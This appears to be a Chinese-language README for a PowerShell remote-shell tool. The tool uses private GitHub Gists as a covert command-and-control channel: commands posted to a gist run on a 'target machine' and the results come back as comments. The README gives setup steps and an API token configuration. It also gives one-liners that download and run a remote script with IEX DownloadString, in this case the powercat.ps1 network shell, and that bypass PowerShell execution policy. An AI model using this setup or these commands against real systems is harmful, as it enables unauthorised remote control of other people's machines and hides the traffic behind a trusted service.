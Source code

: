 ###Powershell Github Shell
	Author:zshell
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

使用方法：<br>
#### 1，创建github账户，访问https://github.com/settings/tokens/new，选中 gist   Create gists ，创建访问Gists的token.</br>
#### 2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：</br>
为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e
	Command:"time /T"<br>
	ReadFile:"c:/windows/temp/1.txt"<br>
	WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"<br>
	Powershell:"Get-Process | Out-String"<br>
	Command:"whoami"<br>
其中<br>
###### Command后是想要执行的cmd命令，功能已测试OK<br>
###### ReadFile是上传目标机器上的文件到Github，暂未实现<br>
###### WriteFile下载文件到目标机器，暂未实现<br><br>
###### Powershell后是可以执行的Powershell指令，暂未实现<br>

#### 3, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名<br>
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1<br>
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位<br>

#### 4, 使powershell在目标机器上执行
##### Powershell执行方法<br>
一句话远程加载 <br>
```Powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
一句话本地加载<br>
```Powershell
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell
```
一句话文件执行<br>
```Powershell
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell
```
#### 5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
